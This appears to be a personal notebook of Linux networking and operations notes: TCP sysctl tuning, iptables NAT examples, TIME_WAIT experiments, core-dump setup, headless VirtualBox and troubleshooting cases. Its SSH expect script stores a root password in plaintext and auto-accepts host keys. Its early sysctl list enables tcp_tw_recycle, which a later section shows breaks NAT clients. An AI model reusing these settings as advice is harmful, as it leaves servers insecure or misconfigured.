进入SYN包的最大请求队列.默认1024.对重负载服务器,可调整

net.ipv4.tcp_max_syn_backlog = 65536

 

进入包的最大设备队列.默认是300,对重负载服务器而言,该值太低,可调整

net.core.netdev_max_backlog =  32768

 

listen()的默认参数,挂起请求的最大数量.默认是128.对繁忙的服务器,增加该值有助于网络性能.可调整

net.core.somaxconn = 32768

 

表示发送套接字缓冲区大小的缺省值（以字节为单位）

net.core.wmem_default = 8388608        

 

表示接收套接字缓冲区大小的缺省值（以字节为单位）

net.core.rmem_default = 8388608

 

最大socket读buffer,可参考的优化值：873200

net.core.rmem_max = 16777216

 

最大socket写buffer,可参考的优化值：873200

net.core.wmem_max = 16777216  

 

时间戳可以避免序列号的卷绕。一个1Gbps的链路肯定会遇到以前用过的序列号。时间戳能够让内核接受这种"异常"的数据包。这里需要将其关掉。

net.ipv4.tcp_timestamps = 0

 

为了打开对端的连接，内核需要发送一个SYN并附带一个回应前面一个SYN的ACK.也就是所谓三次握手中的第二次#握手。这个设置决定了内核放弃连接之前发送SYN+ACK包的数量

net.ipv4.tcp_synack_retries = 2

 

在内核放弃建立连接之前发送SYN包的数量

net.ipv4.tcp_syn_retries = 2

 

表示开启TCP连接中TIME-WAIT sockets的快速回收，默认为0,表示关闭

net.ipv4.tcp_tw_recycle = 1

 
net.ipv4.tcp_tw_len = 1

 

表示开启重用。允许将TIME-WAIT sockets重新用于新的TCP连接，默认为0,表示关闭；

net.ipv4.tcp_tw_reuse = 1

 

net.ipv4.tcp_mem = 94500000 915000000 927000000

#net.ipv4.tcp_mem[0]:低于此值，TCP没有内存压力。   

#net.ipv4.tcp_mem[1]:在此值下，进入内存压力阶段。   

#net.ipv4.tcp_mem[2]:高于此值，TCP拒绝分配socket

 

系统中最多有多少个TCP套接字不被关联到任何一个用户文件句柄上。如果超过这个数字，连接将即刻被复位并打#印出警告信息。这个限制仅仅是为了防止简单的DoS攻击，不能过分依靠它或者人为地减小这个值，更应该增加这个值（如果增加了内存之后）。

net.ipv4.tcp_max_orphans = 3276800

 

#net.ipv4.tcp_fin_timeout = 30

#net.ipv4.tcp_keepalive_time = 120

 

表示用于向外连接的端口范围。缺省情况下很小

net.ipv4.ip_local_port_range = 1024  65535

 

代表机器跟踪连接的数目

net.ipv4.ip_conntrack_max=655360

net.ipv4.netfilter.ip_conntrack_max=655360

net.nf_conntrack_max=655360

net.netfilter.nf_conntrack_max=655360
* iptables NAT配置
** SNAT：源地址转换
目标地址不变，重新改写源地址，并在本机建立NAT表项，当数据返回时，根据NAT表将目的地址数据改写为数据发送出去时候的源地址，并发送给主机
目前大多都是解决内网用户用同一个公网地址上网的情况

** DNAT：目标地址转换

和SNAT相反，源地址不变，重新修改目标地址，在本机建立NAT表项，当数据返回时，根据NAT表将源地址修改为数据发送过来时的目标地址，并发给远程主机
在DNAT的基础上，可以根据请求数据包的端口做PNAT（端口转换，也称为端口映射），可以更句请求数据包不同的端口改写不同的目标地址，从而发送给不同的主机
这在用一个公网地址做不同服务时用的比较多，而且相对来说，用NAT的方式可以隐藏后端服务器的真实地址，更加的安全

完成nat的实现，数据要经过prerouting—forword--postrouting这3个链

** SNAT的数据流向过程

首先进入prerouting，发现不是本网段的地址，而后开始查找路由表（查找路由的过程在prerouting和forword之间），
于是经过forword链进行转发，在通过postrouting时进行NAT转换。
在这个流程中，NAT转换的步骤在postrouting链上实现，之所以不再prerouting上做nat是因为数据包在进来之前，还不知道是本网段地址还是外网地址
 
** DNAT的数据流向过程

在DNAT中，NAT要在prerouting链上做。之前提到过，在数据进入主机后，路由选择过程是在prerouting和forword之间的，
所以应该先做地址转换之后，再进行路由选择，而后经过forword，最后从postrouting出去

** SNAT 实验

*在做nat之前，要先把路由功能打开，不然数据包连forword都过不了*

[root@localhost ~]# echo 1 > /proc/sys/net/ipv4/ip_forward

添加nat表项
[root@localhost ~]# iptables -t nat -A POSTROUTING -s 172.16.93.0/24  -j SNAT --to-source 10.0.0.1
表示在postrouting链上，将源地址为172.16.93.0/24网段的数据包的源地址都转换为10.0.0.1

** 删除
   iptables -L -t nat --line-numbers
   使用--line-numbers显示chain-num

   iptables -t nat -D POSTROUTING 1 
   删除chain-num为1的规则
** DNAT
 
在DNAT中，要把规则定义在PREROUTING链中

iptables -t nat -A PREROUTING -d 10.0.0.1 -j DNAT –-to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1的数据包转发到后端172.16.93.1主机上

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp --dport 80 -j DNAT --to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1并且端口为80的数据包转发到后端的172.16.93.1主机上，通过定义不同的端口，就可以实现PNAT，将同一个IP不同的端口请求转发到后端不同的主机

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp --dport 80 -j DNAT --to-destination 172.16.93.1:8080
此条规则在上条规则的基础上，发往后端的数据包的目标端口改为8080，在后端主机的web服务器上使用8080端口接收访问， 这样能更好的保护后端主机

** 使用SNAT上网
*在做nat之前，要先把路由功能打开，不然数据包连forword都过不了*

[root@localhost ~]# echo 1 > /proc/sys/net/ipv4/ip_forward
公司上外网需要进入windows域，而且有各种限制。
所以同事就采用了SNAT在一台有外网IP的机器上设置上网代理


其中172.16.132.189是可以直接通过路由器上网的IP
我们在eth0:1上设置虚IP 192.168.0.86

linux-19:~ # ifconfig
eth0      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:172.16.132.189  Bcast:172.16.132.189  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b3/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:673852 errors:0 dropped:4 overruns:0 frame:0
          TX packets:532089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:84927257 (80.9 Mb)  TX bytes:290095285 (276.6 Mb)
          Interrupt:16 Memory:f8000000-f8012800 

eth0:1    Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:192.168.0.86  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          Interrupt:16 Memory:f8000000-f8012800 

eth1      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B5  
          inet addr:10.0.64.19  Bcast:10.0.64.255  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:48566313 errors:0 dropped:215 overruns:0 frame:0
          TX packets:46589089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:19627285431 (18718.0 Mb)  TX bytes:13694263195 (13059.8 Mb)
          Interrupt:16 Memory:f4000000-f4012800 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:26472624 errors:0 dropped:0 overruns:0 frame:0
          TX packets:26472624 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:5729228159 (5463.8 Mb)  TX bytes:5729228159 (5463.8 Mb)

代理通过路由器172.16.132.3上网
linux-19:~ # route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         172.16.132.3    0.0.0.0         UG    0      0        0 eth0
10.0.64.0       *               255.255.255.0   U     0      0        0 eth1
loopback        *               255.0.0.0       U     0      0        0 lo
172.16.132.0    *               255.255.255.0   U     0      0        0 eth0
192.168.0.0     *               255.255.255.0   U     0      0        0

配置SNAT的结果

10.0.64.0/24是一个内部服务器网络，仍然需要访问，
所以第一条策略单独配置了。
linux-19:~ # iptables -L -n -t nat
...
Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
SNAT       all  --  0.0.0.0/0            10.0.0.0/8          to:10.0.64.19 
SNAT       all  --  192.168.0.0/24       0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.86.0/24      0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.100.0/24     0.0.0.0/0           to:172.16.132.189


最后，我使用的机器将IP设置为192.168.0.109，网关设置为192.168.0.86
现在就可以自由的上网了。

** 使用DNAT对外开放服务
在10.0.64.19上有外网IP，我们希望通过该外网IP开放6006端口

在10.0.64.19上：
iptables -t nat -A PREROUTING  -p tcp --dport 6006 -j DNAT --to-destination 10.0.64.18:6006

在10.0.64.18上
route add default gw 10.0.64.19

* TIME_WAIT状态是否占用文件描述符

Each socket in TIME_WAIT consumes some memory in the kernel, usually somewhat less than an ESTABLISHED socket yet still significant. A sufficiently large number could exhaust kernel memory, or at least degrade performance because that memory could be used for other purposes. TIME_WAIT sockets do not hold open file descriptors (assuming they have been closed properly), so you should not need to worry about a "too many open files" error.

The socket also ties up that particular src/dst IP address and port so it cannot be reused for the duration of the TIME_WAIT interval. (This is the intended purpose of the TIME_WAIT state.) Tying up the port is not usually an issue unless you need to reconnect a with the same port pair. Most often one side will use an ephemeral port, with only one side anchored to a well known port. However, a very large number of TIME_WAIT sockets can exhaust the ephemeral port space if you are repeatedly and frequently connecting between the same two IP addresses. Note this only affects this particular IP address pair, and will not affect establishment of connections with other hosts.

编写测试程序链接建立一个TCP链接，然后断开该链接，如此反复。
不断创建TIME_WAIT状态的socket。
#+begin_src c
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <strings.h>

int main(int argc,char *args[])
{
    int socket_descriptor;
    int port = 8080;
    struct sockaddr_in pin;
    int count = 0;
    while(1) {
        pin.sin_family = AF_INET;
        pin.sin_addr.s_addr = inet_addr("10.0.64.18");
        pin.sin_port = htons(port);
        bzero(&(pin.sin_zero), 8);

        socket_descriptor = socket(AF_INET, SOCK_STREAM, 0);
        if(connect(socket_descriptor, (void *)&pin, sizeof(pin))==-1)
        {
            perror("connect");
        }
        close(socket_descriptor);
        count++;
        if(count%1000 == 1) {
            sleep(1);
        }
    }
    return 0;
}
#+end_src

然后查看打开文件句柄数
cat /proc/sys/fs/file-nr
(file-nr含义见Documentation/filesystems/proc.txt)
代码见file_table.c: int proc_nr_files(...)
发现file-nr并不增长


将生成TIME_WAIT频率加快。
connect就是返回错误信息
connect: Cannot assign requested address

由于占用的端口号超过了61000-32768
net.ipv4.ip_local_port_range = 32768	61000


TIME_WAIT不占用file-nr的原因:
在于用户态程序调用了close()
sys_close()调用，释放了file描述符，
sys_close()->filp_close()->fput()
* ifconfig看不到ip命令设置的地址
  ip addr show
* strace 看libxx.so加载的路径
  ./network_monitor: error while loading shared libraries: libutils.so: cannot open shared object file: No such file or directory

  strace ./network_monitor
* HTTPS的工作原理
HTTPS在传输数据之前需要客户端（浏览器）与服务端（网站）之间进行一次握手，在握手过程中将确立双方加密传输数据的密码信息。
TLS/SSL协议不仅仅是一套加密传输的协议，更是一件经过艺术家精心设计的艺术品，TLS/SSL中使用了非对称加密，对称加密以及HASH算法。握手过程的简单描述如下：
1.浏览器将自己支持的一套加密规则发送给网站。
2.网站从中选出一组加密算法与HASH算法，并将自己的身份信息以证书的形式发回给浏览器。证书里面包含了网站地址，加密公钥，以及证书的颁发机构等信息。
3.获得网站证书之后浏览器要做以下工作：
a) 验证证书的合法性（颁发证书的机构是否合法，证书中包含的网站地址是否与正在访问的地址一致等），如果证书受信任，则浏览器栏里面会显示一个小锁头，否则会给出证书不受信的提示。
b) 如果证书受信任，或者是用户接受了不受信的证书，浏览器会生成一串随机数的密码，并用证书中提供的公钥加密。
c) 使用约定好的HASH计算握手消息，并使用生成的随机数对消息进行加密，最后将之前生成的所有信息发送给网站。
4.网站接收浏览器发来的数据之后要做以下的操作：
a) 使用自己的私钥将信息解密取出密码，使用密码解密浏览器发来的握手消息，并验证HASH是否与浏览器发来的一致。
b) 使用密码加密一段握手消息，发送给浏览器。
5.浏览器解密并计算握手消息的HASH，如果与服务端发来的HASH一致，此时握手过程结束，之后所有的通信数据将由之前浏览器生成的随机密码并利用对称加密算法进行加密。
* python matplotlib画图
* gearman
* Linux下程序无core文件定位程序崩溃的方法

Linux平台下运行程序，程序出错core掉，设置了ulimit -c会产生core文件，根据生成的core文件和程序很容易定位程序哪里出了问题。如果在生产环境，可能会存在以下几种情况不能生成core文件
    忘记设置ulimit -c
    生成的core文件太大，磁盘不能写入，或者磁盘空间已满
    误删除
    其它

如果出现了不能产生core文件的情况，可以通过以下两种方法定位：

1.addr2line方法

如果我们在编译的时候加了-g，可以直接用addr2line直接定位到程序哪一行出错了

备注: 08048484是程序core掉时的EIP值，通过系统日志获取形式如下

Sep  3 10:15:46 localhost kernel: a.out[19254]: segfault at 0 ip 08048484 sp bfa86ff0 error 6 in a.out[8048000+1000]

命令:
   addr2line -e a.out 08048484

运行结果:
   /home/woody/demo/testcore.cpp:6

2.如果在编译的时候没有加上-g选项，addr2line就不起作用了，这时可以通过反汇编可执行程序定位
命令：
   objdump -d a.out > a.asm
打开生成的汇编文件a.asm
* 自动登录ssh
  由于最近每天都使用ssh登录到服务器上调试程序，
  看N多SSH窗口，每次都输入密码，累。
  于是使用expect,写脚本如下：
#+begin_example
#!/usr/bin/expect -f
set ip 10.0.64.18
set password root
set timeout 10
spawn ssh root@$ip
expect {
    "*yes/no" { send "yes\r"; exp_continue}
    "*password:" { send "$password\r" }
}
expect "#*"
#进入代码目录
send "cd /home/yxf/Compile/code/HSS\r"
#交互模式,用户会停留在远程服务器上面.
interact
#+end_example
* svn 批量添加啊
    svn st | awk '{if ( $1 == "?") { print $2}}' | xargs svn add  
* gnome mount sftp
  在同步本地源码和ssh服务器上的代码时，
  可以使用gnome, file->connect to server
  将ssh的文件mount到本地，使用beycond compare进行对比
* linux svn图形工具
  rabbitvcs
* How to create and start VirtualBox VM without GUI
** Prerequisite for starting VirtualBox VM without GUI

First, you need to install VirtualBox Extension Pack. The Extension Pack is needed to run a VRDE remote desktop server used to access headless VMs. Its binary is available for free. To download and install VirtualBox Extension Pack:
$ wget http://download.virtualbox.org/virtualbox/4.2.12/Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack
$ sudo VBoxManage extpack install ./Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack

Verify that the Extension Pack is successfully installed, by using the following command.
$ VBoxManage list extpacks

Extension Packs: 1
Pack no. 0:   Oracle VM VirtualBox Extension Pack
Version:      4.2.12
Revision:     84980
Edition:      
Description:  USB 2.0 Host Controller, VirtualBox RDP, PXE ROM with E1000 support.
VRDE Module:  VBoxVRDP
Usable:       true 
Why unusable: 

** Create a VirtualBox VM from the command line

I assume that the VirtualBox' VM directory is located in "~/VirtualBox\ VMs".

First create a VM. The name of the VM is "testvm" in this example.
$ VBoxManage createvm --name "testvm" --register

Specify the hardware configurations of the VM (e.g., Ubuntu OS type, 1024MB memory, bridged networking, DVD booting).
$ VBoxManage modifyvm "testvm" --memory 1024 --acpi on --boot1 dvd --nic1 bridged --bridgeadapter1 eth0 --ostype Ubuntu

Create a disk image (with size of 10000 MB). Optionally, you can specify disk image format by using "--format [VDI|VMDK|VHD]" option. Without this option, VDI image format will be used by default.
$ VBoxManage createvdi --filename ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi --size 10000

Add an IDE controller to the VM.
$ VBoxManage storagectl "testvm" --name "IDE Controller" --add ide

Attach the previously created disk image as well as CD/DVD drive to the IDE controller. Ubuntu installation ISO image (found in /iso/ubuntu-12.04.1-server-i386.iso) is then inserted to the CD/DVD drive.
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 0 --device 0 --type hdd --medium ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 1 --device 0 --type dvddrive --medium /iso/ubuntu-12.04.1-server-i386.iso

** Start VirtualBox VM from the command line

Once a new VM is created, you can start the VM headless (i.e., without VirtualBox console GUI) as follows.
$ VBoxHeadless --startvm "testvm" &

The above command will launch the VM, as well as VRDE remote desktop server. The remote desktop server is needed to access the headless VM's console.

By default, the VRDE server is listening on TCP port 3389. If you want to change the default port number, use "-e" option as follows.
$ VBoxHeadless --startvm "testvm" -e "TCP/Ports=4444" &

If you don't need remote desktop support, launch a VM with "--vrde off" option.
$ VBoxHeadless --startvm "testvm" --vrde off &

** Connect to headless VirtualBox VM via remote desktop

Once a VM is launched with remote desktop support, you can access the VM's console via any remote desktop client (e.g., rdesktop).

To install rdesktop on Ubuntu or Debian:
$ sudo apt-get install rdesktop

To install rdesktop on CentOS, RHEL or Fedora, configure Repoforge on your system, and then run the following.
$ sudo yum install rdesktop

To access a headless VM on a remote host machine, run the following.
$ rdesktop -a 16 <IP_address_host_machine>

If you use a custom port number for a remote desktop server, run the following instead.
$ rdesktop -a 16 <IP_address_host_machine:port_number>

Once rdesktop is successfully connected to the VM via remote desktop, you will see the initial installation screen.
* nginx用光local port
2014/04/24 12:22:53 [crit] 1120#0: *17024380925 connect() to 192.168.2.150:8088 failed (99: Cannot assign requested address) while connecting to upstream, client: 123.14.145.99, server: , request: "POST /aaa/app_signon HTTP/1.1", upstream: "http://192.168.2.150:8088/aaaopenapi?action=aaa&cmd=app_signon", host: "api.hismarttv.com:8080"

需要调整net.ipv4.ip_local_port_range参数
* recv() hang 程序
  socket没有设置recv timeout
* tcp_timestamp引发的问题
    近来线上陆续出现了一些connect失败的问题，经过分析试验，最终确认和proc参数tcp_tw_recycle/tcp_timestamps相关；
1. 现象
    第一个现象：模块A通过NAT网关访问服务S成功，而模块B通过NAT网关访问服务S经常性出现connect失败，抓包发现：服务S端已经收到了syn包，但没有回复synack；另外，模块A关闭了tcp timestamp，而模块B开启了tcp timestamp；
    第二个现象：不同主机上的模块C（开启timestamp），通过NAT网关（1个出口ip）访问同一服务S，主机C1 connect成功，而主机C2 connect失败；

2. 分析
    根据现象上述问题明显和tcp timestmap有关；查看linux 2.6.32内核源码，发现tcp_tw_recycle/tcp_timestamps都开启的条件下，60s内同一源ip主机的socket connect请求中的timestamp必须是递增的。
    源码函数：tcp_v4_conn_request(),该函数是tcp层三次握手syn包的处理函数（服务端）；
    源码片段：
       if (tmp_opt.saw_tstamp &&
            tcp_death_row.sysctl_tw_recycle &&
            (dst = inet_csk_route_req(sk, req)) != NULL &&
            (peer = rt_get_peer((struct rtable *)dst)) != NULL &&
            peer->v4daddr == saddr) {
            if (get_seconds() < peer->tcp_ts_stamp + TCP_PAWS_MSL &&
                (s32)(peer->tcp_ts - req->ts_recent) >
                            TCP_PAWS_WINDOW) {
                NET_INC_STATS_BH(sock_net(sk), LINUX_MIB_PAWSPASSIVEREJECTED);
                goto drop_and_release;
            }
        }
        tmp_opt.saw_tstamp：该socket支持tcp_timestamp
        sysctl_tw_recycle：本机系统开启tcp_tw_recycle选项
        TCP_PAWS_MSL：60s，该条件判断表示该源ip的上次tcp通讯发生在60s内
        TCP_PAWS_WINDOW：1，该条件判断表示该源ip的上次tcp通讯的timestamp 大于 本次tcp

    分析：主机client1和client2通过NAT网关（1个ip地址）访问serverN，由于timestamp时间为系统启动到当前的时间，因此，client1和client2的timestamp不相同；根据上述syn包处理源码，在tcp_tw_recycle和tcp_timestamps同时开启的条件下，timestamp大的主机访问serverN成功，而timestmap小的主机访问失败；

    参数：/proc/sys/net/ipv4/tcp_timestamps - 控制timestamp选项开启/关闭
          /proc/sys/net/ipv4/tcp_tw_recycle - 减少timewait socket释放的超时时间

    如果客户端是NAT出来的，并且我们server端有打开tcp_tw_recycle ,并且time stamp也没有关闭，那么假设第一个连接进来，然后关闭，此时这个句柄处于time wait状态，然后很快(小于60秒)又一个客户端(相同的源地址，如果打开了xfrm还要相同的端口号)发一个syn包，此时linux内核就会认为这个数据包异常的，因此就会丢掉这个包,并发送rst。

而现在大部分的客户端都是NAT出来的，因此建议tw_recycle还是关闭,或者说server段关闭掉time stamp(/proc/sys/net/ipv4/tcp_timestamps).

3. 解决方法
    echo 0 > /proc/sys/net/ipv4/tcp_tw_recycle;
    tcp_tw_recycle默认是关闭的，有不少服务器，为了提高性能，开启了该选项；
    为了解决上述问题，个人建议关闭tcp_tw_recycle选项，而不是timestamp；因为 在tcp timestamp关闭的条件下，开启tcp_tw_recycle是不起作用的；而tcp timestamp可以独立开启并起作用。
    源码函数：  tcp_time_wait()
    源码片段：
        if (tcp_death_row.sysctl_tw_recycle && tp->rx_opt.ts_recent_stamp)
            recycle_ok = icsk->icsk_af_ops->remember_stamp(sk);
        ......
       
        if (timeo < rto)
            timeo = rto;

        if (recycle_ok) {
            tw->tw_timeout = rto;
        } else {
            tw->tw_timeout = TCP_TIMEWAIT_LEN;
            if (state == TCP_TIME_WAIT)
                timeo = TCP_TIMEWAIT_LEN;
        }

        inet_twsk_schedule(tw, &tcp_death_row, timeo,
                   TCP_TIMEWAIT_LEN);

    timestamp和tw_recycle同时开启的条件下，timewait状态socket释放的超时时间和rto相关；否则，超时时间为TCP_TIMEWAIT_LEN，即60s；

    内核说明文档 对该参数的介绍如下：
    tcp_tw_recycle - BOOLEAN
    Enable fast recycling TIME-WAIT sockets. Default value is 0.
    It should not be changed without advice/request of technical
    experts.
* c++ tr1 functional
#+begin_src c++
#include <iostream>
#include <string>
#include <tr1/functional>

using namespace std;
struct A {
    A(const std::string& n) : name_(n) {}
    void printit(const std::string& s) 
    {
        std::cout << name_ << " says " << s << std::endl;
    }
private:
    const std::string name_;
};

int main()
{
    A a("Joe");
    std::tr1::function<void(const std::string&)> f = std::tr1::bind(&A::printit, &a, std::tr1::placeholders::_1);
    f("Hi");
    std::tr1::function<void(struct A*)> g = std::tr1::bind(&A::printit, std::tr1::placeholders::_1, "hello");
    g(&a);
}
#+end_src
* C/C++ 减少问题办法
  使用工具
** pc-lint进行代码静态检查 
** valgrind进行代码内存检查 [[valgrind]]
* 检查内存泄漏
  1. valgrind 见 [[valgrind]]

  2. glic函数 malloc_stats()

* ext3 文件恢复
  工具 ext3undelete
* XEN 虚拟机中LVS realserver
  运维部门要使用使用两台物理中的两个虚拟机当作realserver
  一个物理机有一个虚拟机。
  使用LVS tunnel方式。
  在虚拟机中按照物理机一样配置方式配置realserver
  （创建tunl0口，设置tunl0口IP等等）
  就可以了。

** TODO  xen是怎样做到呢？

  显然我们在虚拟机内配置tunl0口时，物理机知道了虚拟机的配置信息：tunl0口的IP信息。
  否则虚拟机不会通过tunl0口实现LVS
* How golang deal with epoll Supporting
  src/pkg/net/fd_poll_runtime.go
* web服务网络拥塞
  监控系统发现生产环境上大量的请求无法响应，被怀疑是LVS和nginx的不能及时转发数据。
  经过查看没有发现问题。
  后来通过现场的我们开发的流量监控工具，看到高峰期的每秒链接请求数、每秒数据包数的曲线，
  在高峰期变成了水平的状态，而正常时应该程抛物线状。
  
  又知道现场的网络部署有监控系统，而改监控系统观测的服务都是正常的。
  两个监控系统的关键差异是外网经过了生产的防火墙。所以初步推断为防火墙的问题。

  后来经证实是防火墙到达其所支持的最大链接数(session) 75万。

  而防火墙上设置tcp链接的超时时间为1小时，半链接超时时间为10分钟。
  保守其见，我让人将两者的超时时间改为原来的一半。
  晚上到了高峰期，结果虽然防火墙链接达到上限的时间得到延迟，但是最后session还被占满了。

  最后发现原因是IDC机房限制了出口的流量，当流量超过上限时，就进行丢包。

  还有一个问题是零晨1点，不是用户的高峰期，但是仍然后大量链接请求，导致流量一直下不来。
  终端不断重试，由于入口流量未达到上限，终端发送的请求总能收到，并且服务端能够处理，
  并且试图向终端发送响应，但是超过出口的流浪限制，响应的数据包被丢弃。服务端的协议栈会尝试继续重发，
  也增大的整个网络出口的数据量。
** 我认为的解决办法
  终端API如果采用指数避让（exponential backoff）
  1.Make a request to the API.
  2.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  3.Wait 1 + random_number_milliseconds seconds and retry the request.
  4.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  5.Wait 2 + random_number_milliseconds seconds, and retry the request.
  6.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  7.Wait 4 + random_number_milliseconds seconds, and retry the request.
  8.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  9.Wait 8 + random_number_milliseconds seconds, and retry the request.
  10.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  11.Wait 16 + random_number_milliseconds seconds, and retry the request.
  12.Stop. Report or log an error.

  In the above flow, random_number_milliseconds is a random number of milliseconds less than or equal to 1000.
  This is necessary to avoid certain lock errors in some concurrent implementations. 
  The value of random_number_milliseconds must be redefined after each wait.

  另外需要服务端支持服务队列超过上限时，对客户端返回http 403错误。

客户端示例代码，来自google drive SDK说明
#+begin_src python
import random
import time
from apiclient.errors import HttpError

def makeRequestWithExponentialBackoff(analytics):
  """Wrapper to request Google Analytics data with exponential backoff.

  The makeRequest method accepts the analytics service object, makes API
  requests and returns the response. If any error occurs, the makeRequest
  method is retried using exponential backoff.

  Args:
    analytics: The analytics service object

  Returns:
    The API response from the makeRequest method.
  """
  for n in range(0, 5):
    try:
      return makeRequest(analytics)

    except HttpError, error:
      if error.resp.reason in ['userRateLimitExceeded', 'quotaExceeded']:
        time.sleep((2 ** n) + random.random())

  print "There has been an error, the request never succeeded."

#+end_src

* ulimit core dump
How do I enable core dumps for everybody
** Overview

    In most Linux Distributions core file creation is disabled by default for a normal user. However, it can be necessary to enable this feature for an application (e.g. Oracle). For example, if you encounter an ORA-7445 error in Oracle, then it must be possible to write a core file for the user «oracle».

    To enable writing core files you use the ulimit command, it controls the resources available to a process started by the shell, on systems that allow such control.

    If you try to enable writing core files, usually you run in the following problem. Normally SSH is used to logon to the server.

    ssh oracle@ora-server
#+begin_example
    $ ulimit -a

    core file size          (blocks, -c) 0
    data seg size           (kbytes, -d) unlimited
    file size               (blocks, -f) unlimited
    pending signals                 (-i) 1024
    max locked memory       (kbytes, -l) 32
    max memory size         (kbytes, -m) unlimited
    open files                      (-n) 65536
    pipe size            (512 bytes, -p) 8
    POSIX message queues     (bytes, -q) 819200
    stack size              (kbytes, -s) 10240
    cpu time               (seconds, -t) unlimited
    max user processes              (-u) 16384
    virtual memory          (kbytes, -v) unlimited
    file locks                      (-x) unlimited
#+end_example
    Now, try (not as user root) to change the core file size to unlimited
#+begin_example
    $ ulimit -c unlimited
    -bash: ulimit: core file size: cannot modify limit: Operation not permitted
#+end_example
** Solution

        Check Environment for ulimit

        The first step is to check, that you don't set ulimit -c 0 in any shell configuration files for this user, for example in $HOME/.bash_profile or $HOME/.bashrc. Uncomment it if you have such an entry.

        #
        # Do not produce core dumps
        #
        # ulimit -c 0
         
        Globally enable Core Dumps

        This must be done as user root, usually in /etc/security/limits.conf
#+begin_example
        # /etc/security/limits.conf
        #
        # Each line describes a limit for a user in the form:
        #
        # <domain> <type> <item> <value>
        #
        *  soft  core  unlimited
#+end_example         
        Logoff and Logon again and set ulimit
#+begin_example
        ssh oracle@ora-server
        $ ulimit -c
        0
#+end_example
        Try to set the limit as user root first
#+begin_example
        su -
        ulimit -c unlimited
        ulimit -c
        unlimited
#+end_example
        Now you can set ulimit also for user oracle
#+begin_example
        su - oracle
        ulimit -c unlimited
        ulimit -c
        unlimited
#+end_example
    Perhaps the last step number 3 is not necessary, but we have figured out, that this is the way which always work. The core file size limitation is usually also set in different configuration files. If you want to enable cores, you can uncomment them.

    In /etc/profile (Redhat)
#+begin_example
    # No core files by default
    # ulimit -S -c 0 > /dev/null 2>&1
#+end_example
    In /etc/init.d/functions (Redhat)
#+begin_example
    # make sure it doesn't core dump anywhere unless requested
    # ulimit -S -c ${DAEMON_COREFILE_LIMIT:-0} >/dev/null 2>&1
#+end_example
    Now, from this current shell you can generate the core, so check ulimit before.
#+begin_example
    $ ulimit -a

    core file size          (blocks, -c) unlimited
    data seg size           (kbytes, -d) unlimited
    file size               (blocks, -f) unlimited
    pending signals                 (-i) 1024
    max locked memory       (kbytes, -l) 32
    max memory size         (kbytes, -m) unlimited
    open files                      (-n) 65536
    pipe size            (512 bytes, -p) 8
    POSIX message queues     (bytes, -q) 819200
    stack size              (kbytes, -s) 10240
    cpu time               (seconds, -t) unlimited
    max user processes              (-u) 16384
    virtual memory          (kbytes, -v) unlimited
    file locks                      (-x) unlimited
#+end_example
** ulimit: no command found
   应该当前用户使用的shell没有实现ulimit命令
   执行bash，然后就可以了
* load test tools
** ab

** siege
